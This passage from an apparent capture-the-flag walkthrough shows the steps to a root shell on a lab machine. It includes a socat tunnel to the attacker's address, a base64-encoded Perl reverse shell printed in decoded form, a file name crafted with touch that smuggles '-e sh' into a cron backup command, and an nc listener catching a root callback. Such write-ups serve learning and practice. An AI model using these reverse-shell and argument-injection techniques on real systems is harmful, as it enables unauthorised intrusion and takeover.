 I'll first set up a tunnel on nodered:



    # /tmp/s tcp-listen:9010,fork tcp:10.10.14.14:9010 &



Now write a perl reverse shell into a file and create the other file to
run it. I'll use base64 to easily move small files back and forth:



    root@kali# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d
    perl -e 'use Socket;$i="172.19.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



I'll create my reverse shell script as `p.rdb`, and then create the file
that will call that abusing the wildcard with `touch`:



    $ echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > /var/www.md/f187a0ec71ce99642e4f0afbd441a68b/p.rdb

    $ touch /var/www.md/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ p.rdb



When the cron runs, I'll catch a callback as root on www when the backup
script runs:



    root@kali# nc -lnvp 9010
    listening on [any] 9010 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51920
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    www



And I can grab `user.txt`:



    # cat /home/somaro/user.txt
    c09aca7c...
